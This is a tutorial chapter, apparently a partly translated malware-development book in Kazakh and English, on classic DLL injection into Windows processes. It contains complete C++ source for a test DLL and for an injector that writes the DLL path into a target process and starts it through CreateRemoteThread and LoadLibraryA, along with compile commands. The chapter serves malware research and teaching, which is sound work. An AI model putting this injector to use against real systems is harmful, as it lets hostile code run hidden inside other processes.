








\newpage
\subsection{5. Процесске классикалық DLL инъекциясы. Қарапайым C++ зиянды бағдарламасы (malware).}

﷽

{width=400px}    

Бұл бөлімде біз debugging API қолданатын классикалық DLL инъекция техникасын талқылаймыз.    

Классикалық кодты енгізу туралы мен алдыңғы бөлімде жазған едім.     

Біріншіден, DLL-ді дайындап алайық.     

Windows машинасында `exe` және `DLL` үшін C кодын жазуда шамалы айырмашылықтар бар. Негізгі айырмашылық - модульде немесе бағдарламада кодты қалай атайтыныңыз. `exe` жағдайында `main` (негізгі) деп аталатын функция болуы керек, ол жаңа процесс болса, барлығын инициализациялауды аяқтаған кезде операциялық жүйенің жүктеушісі шақырады. Осы кезде сіздің бағдарламаңыз операциялық жүйе жүктеушісі жұмысын аяқтаған кезде өз жұмысын бастайды.

Ал екінші жағынан, бағдарламаңызды динамикалық кітапхана ретінде іске қосқыңыз келген кезде, `DLL` арқылы бұл сәл басқаша әдіс, сондықтан жүктеуші жадта процесті жасап қойған және қандай да бір себептермен бұл процесс DLL немесе кез келген басқа DLL файлын процесске жүктеу үшін қажет және бұл сіздің DLL іске асыратын функцияға байланысты болуы мүмкін.     

Сондықтан *exe негізгі функцияны қажет етеді және DLL үшін DLLMain функциясы қажет*    

Негізінде бұл ең қарапайым айырмашылық.     

Қарапайымдылық үшін біз өте оңай DLL жасаймыз, ол жай ғана хабарлама терезесін ашады:     

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Ол тек DLL кітапханасының негізгі функциясы болып табылатын `DllMain` файлынан тұрады. Ол әдетте заңды DLL файлдары жасайтын экспортталған функцияларды жарияламайды. `DllMain` коды DLL процесс жадына жүктелгеннен кейін бірден орындалады.    

Бұл DLL Injection контекстінде маңызды, өйткені біз басқа процесс контекстінде кодты орындаудың қарапайым әдісін іздейміз. Сондықтан енгізілген зиянды Dll файлдарының көпшілігінде `DllMain` ішінде зиянды кодтардың көпшілігі бар. Процесті экспортталған функцияны іске қосуға мәжбүрлеудің жолдары бар, бірақ кодты `DllMain` ішінде жазу әдетте кодтың орындалуын алудың ең қарапайым шешімі болып табылады.    

When run in injected process it should display our message: "Meow from evil.dll!", so we will know that injection was successful. Now we can compile it (on attacker's machine):     

```bash
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.cpp -fpermissive
```

{width=400px}    

and put it in a directory of our choice (victim's machine):    
{width=400px}

Now we only need a code which will inject this library into the process of our choosing.

In our case we are going talk about classic DLL injection. We allocate an empty buffer of a size at least the length of the path of our DLL from disk. And then we copy the path to this buffer.    

```cpp
/*
* evil_inj.cpp
* classic DLL injection example
* author: @cocomelonc
* https://cocomelonc.github.io/tutorial/
2021/09/20/malware-injection-2.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // parse process ID
  if ( atoi(argv[1]) == 0) {
      printf("PID not found :( exiting...\n");
      return -1;
  }
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, 
  FALSE, 
  DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, 
  (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)lb, 
  rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}

```

It's pretty simple as you can see. It's same as in my classic code injection section. The only difference is we add path of our DLL from disk **(1)** and before we finally inject and run our DLL - we need a memory address of `LoadLibraryA`, as this will be an API call that we will execute in the context of the victim process to load our DLL **(2)**:    

{width=400px}

So finally after we understood entire code of the injector, we can test it.
Compile it:
```bash
x86_64-w64-mingw32-gcc -O2 evil_inj.cpp -o inj.exe
-mconsole -I/usr/share/mingw-w64/include/ -s
-ffunction-sections -fdata-sections -Wno-write-strings
-fno-exceptions -fmerge-all-constants -static-libstdc++ 
-static-libgcc -fpermissive >/dev/null 2>&1
```
{width=400px}

Let's first launch a `calc.exe` instance and then execute our program:    

{width=400px}

To verify our DLL is indeed injected into `calc.exe` process we can use Process Hacker.

{width=400px}

In another memory section we can see:    
{width=400px}

It seems our simple injection logic worked! This is just a simplest way to inject a DLL to another process but in many cases it is sufficient and very useful.

If you want you can also add function call obfuscation which will be research in the future sections.

[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)   
[CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)   
[OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)    
[GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)     
[LoadLibraryA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)

[Source code in Github](https://github.com/cocomelonc/2021-09-24-injection-2)

In the future sections I will try to figure out more advanced code injection techniques.
